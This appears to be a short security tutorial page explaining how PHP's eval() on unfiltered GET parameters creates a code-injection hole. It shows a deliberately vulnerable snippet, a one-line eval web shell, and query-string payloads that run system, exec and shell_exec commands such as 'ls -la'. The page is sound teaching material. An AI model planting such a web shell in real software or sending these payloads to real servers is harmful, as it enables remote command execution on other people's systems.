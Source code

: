 # PHP

PHP stands for Hypertext Preprocessor. Being a scripting language like Python, PHP does not require compilation. It offers server-side scripting which allowed to creating dynamic web contents.&#x20;

Due to its characteristics of dynamic interaction with user's input, it can be vulnerable without proper user input filtering.

Below is the one of example that can be exploited. It is a simple code that receive user input and evaluate the input as PHP code.

### _Example 1. When PHP source code is vulnerable_

```php
<?php
$input=$_GET['search'];
eval($input);
?>
```

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption><p><a href="https://www.php.net/manual/en/function.eval.php">https://www.php.net/manual/en/function.eval.php</a></p></figcaption></figure>

```php
/?search=system("ls -la");
/?search=echo exec("ls -la");
/?search=echo shell_exec("ls -la");
```

This simple URL parameter could simply lead to entry point for attackers.&#x20;



### _Example 2. PHP code to obtain Web Shell_

```php
<?php
eval($_GET["cmd"]);
?>
```

```php
?cmd=system("ls"); 
?cmd=system("pwd");
```
